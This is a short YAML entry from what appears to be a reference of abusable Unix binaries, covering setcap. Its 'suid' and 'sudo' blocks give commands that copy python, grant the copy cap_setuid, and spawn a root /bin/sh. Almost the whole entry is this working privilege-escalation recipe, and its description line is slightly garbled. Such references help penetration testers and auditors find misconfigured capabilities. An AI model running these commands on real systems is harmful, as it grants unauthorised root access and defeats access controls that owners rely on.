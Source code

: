 ```yaml
---
description: sets and removes capabilities on files
functions:
  suid:
    - description: Can be used to give and capabilities to other files. cap_setuid for example gives an executable permissions to switch uid.
      code: |
        cp $(which python) .
        setcap cap_setuid+ep python
        ./python -c 'import os; os.setuid(0); os.system("/bin/sh")'
  sudo:
    - code: |
        cp $(which python) .
        sudo setcap cap_setuid+ep python
        ./python -c 'import os; os.setuid(0); os.system("/bin/sh")'
---
```

